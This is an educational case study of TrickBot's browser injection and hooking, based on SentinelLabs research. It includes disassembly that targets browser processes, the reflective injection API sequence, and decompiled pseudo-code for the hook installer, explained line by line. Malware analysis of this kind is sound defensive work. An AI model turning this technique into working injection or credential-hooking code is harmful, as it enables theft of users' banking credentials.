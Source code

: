 # Case Study: Browser Injection and Hooking

## Overview

To understand the implications of process injection, we can observe the TTPs (Tactics, Techniques, and Procedures) of TrickBot.

**Credit for initial research:** SentinelLabs

TrickBot is a well-known banking malware that has recently regained popularity in financial crimeware. The main function of the malware we will be observing is **browser hooking**. Browser hooking allows the malware to hook interesting API calls that can be used to intercept or steal credentials.

---

## Targeting Browsers

From SentinelLabs' reverse engineering, it is clear that `OpenProcess` is being used to obtain handles for common browser paths, as seen in the disassembly below:

```assembly
push   eax
push   0
push   438h
call   ds:OpenProcess
mov    edi, eax
mov    [edp,hProcess], edi
test   edi, edi
jz     loc_100045EE

push   offset Srch            ; "chrome.exe"
lea    eax, [ebp+pe.szExeFile]
...
mov    eax, ecx
push   offset aIexplore_exe   ; "iexplore.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aFirefox_exe    ; "firefox.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aMicrosoftedgec ; "microsoftedgecp.exe"
...
```

---

## Reflective Injection Program Flow

The current source code for the reflective injection is unclear, but SentinelLabs has outlined the basic program flow of the injection:

1. Open Target Process (`OpenProcess`)
2. Allocate memory (`VirtualAllocEx`)
3. Copy function into allocated memory (`WriteProcessMemory`)
4. Copy shellcode into allocated memory (`WriteProcessMemory`)
5. Flush cache to commit changes (`FlushInstructionCache`)
6. Create a remote thread (`RemoteThread`)
7. Resume the thread or fallback to create a new user thread (`ResumeThread` or `RtlCreateUserThread`)

---

## Hook Installer Function

Once injected, TrickBot will call its hook installer function copied into memory at step three. SentinelLabs has provided the following pseudo-code for the installer function:

```c
relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
v8 = (unsigned __int8)original_function[5];
trampoline_lpvoid = *(void **)(original_function + 1);
jmp_32_bit_relative_offset_opcode = 0xE9u; // "0xE9" -> opcode for a jump with a 32-bit relative offset

if (VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect)) {
    v10 = *(_DWORD *)(original_function + 1);
    v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
    original_function[66] = 0xE9u;
    *(_DWORD *)(original_function + 0x43) = v10 + v11;
    write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5); // Manually write the hook
    VirtualProtectEx( // Return to original protect state
        (HANDLE)0xFFFFFFFF,
        *(LPVOID *)(original_function + 1),
        (unsigned __int8)original_function[5],
        flOldProtect,
        &flOldProtect
    );
}
result = 1;
```

---

### Code Breakdown

This code may seem daunting at first, but it can be broken down into smaller sections:

1. **Function Pointers**  
   The first section of interesting code defines function pointers:
   ```c
   relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
   v8 = (unsigned __int8)original_function[5];
   trampoline_lpvoid = *(void **)(original_function + 1);
   ```

2. **Memory Protection Modification**  
   The malware modifies the memory protections of the function using `VirtualProtectEx`:
   ```c
   if (VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect))
   ```

3. **Hook Writing**  
   The code rewrites a hook to point to an opcode jump:
   ```c
   v10 = *(_DWORD *)(original_function + 1);
   v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
   original_function[66] = 0xE9u;
   *(_DWORD *)(original_function + 0x43) = v10 + v11;
   write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5);
   ```

4. **Restoring Memory Protections**  
   Finally, it restores the function to its original memory protections:
   ```c
   VirtualProtectEx(
       (HANDLE)0xFFFFFFFF,
       *(LPVOID *)(original_function + 1),
       (unsigned __int8)original_function[5],
       flOldProtect,
       &flOldProtect
   );
   ```

---

## Key Takeaway

The main takeaway of the hooking function for TrickBot is that it injects itself into browser processes using reflective injection and hooks API calls from the injected function.